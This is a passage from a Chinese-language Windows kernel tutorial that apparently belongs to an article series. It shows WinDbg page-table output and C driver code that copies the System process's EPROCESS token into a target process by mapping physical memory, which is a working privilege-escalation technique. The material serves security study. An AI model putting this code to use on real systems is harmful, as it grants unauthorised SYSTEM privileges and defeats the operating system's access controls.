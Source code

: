 ```
kd> !pte ffff958c0bb92080
                                           VA ffff958c0bb92080
PXE at FFFFB8DC6E371958    PPE at FFFFB8DC6E32B180    PDE at FFFFB8DC656302E8    PTE at FFFFB8CAC605DC90
contains 0A000000011D1863  contains 0A000000011D0863  contains 0A0000001AC8A863  contains 8A00000021401963
pfn 11d1      ---DA--KWEV  pfn 11d0      ---DA--KWEV  pfn 1ac8a     ---DA--KWEV  pfn 21401     -G-DA--KW-V
```


## 寫程式
延續[【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN](/asset/第%2006%20話)，程式先用 [PsLookupProcessByProcessId](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid) 取得 EPROCESS Token 的 VA，再 [MmGetPhysicalAddress](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/ntddk/nf-ntddk-mmgetphysicaladdress) 將目標 VA 轉換成 PA，然後呼叫 [MmMapIoSpace](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/nf-wdm-mmmapiospace) 將 PA 映射回 VA。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/AbuseEprocessTokenPhysicalAddress)。

程式步驟如下。
1. 取得 System 的 EPROCESS 的虛擬記憶體位址
2. 取得 System 的 EPROCESS Token 的物理記憶體位址並映射在虛擬記憶體中
3. 從映射的物理記憶體位址取得 System（pid 4）的 EPROCESS Token
4. 取得目標 pid 的 EPROCESS 的虛擬記憶體位址
5. 取得目標 pid 的 EPROCESS Token 的物理記憶體位址並映射在虛擬記憶體中
6. 把目標 pid 的 EPROCESS Token 的物理記憶體位址竄改成 System 的 EPROCESS Token

```c
case ABUSE_EPROCESS_TOKEN:
{
    DWORD64 systemToken;

    // 1. 取得 System 的 EPROCESS 的虛擬記憶體位址
    PsLookupProcessByProcessId((HANDLE)4, &pEprocess);

    // 2. 取得 System 的 EPROCESS Token 的物理記憶體位址並映射在虛擬記憶體中
    PHYSICAL_ADDRESS systemTokenPhysicalAddress = MmGetPhysicalAddress((PVOID)((DWORD64)pEprocess + 0x358));
    PVOID systemTokenMapPhysicalAddress = MmMapIoSpace(systemTokenPhysicalAddress, 8, MmNonCached);

    // 3. 從映射的物理記憶體位址取得 System (pid 4) 的 EPROCESS Token
    systemToken = *(DWORD64 *)systemTokenMapPhysicalAddress;

    // 4. 取得目標 pid 的 EPROCESS 的虛擬記憶體位址
    PsLookupProcessByProcessId(processId, &pEprocess);

    // 5. 取得目標 pid 的 EPROCESS Token 的物理記憶體位址並映射在虛擬記憶體中
    PHYSICAL_ADDRESS targetTokenPhysicalAddress = MmGetPhysicalAddress((PVOID)((DWORD64)pEprocess + 0x358));
    PVOID targetTokenMapPhysicalAddress = MmMapIoSpace(targetTokenPhysicalAddress, 8, MmNonCached);

    // 6. 把目標 pid 的 EPROCESS Token 的物理記憶體位址竄改成 System 的 EPROCESS Token
    *(DWORD64 *)targetTokenMapPhysicalAddress = systemToken;

    break;
}
```
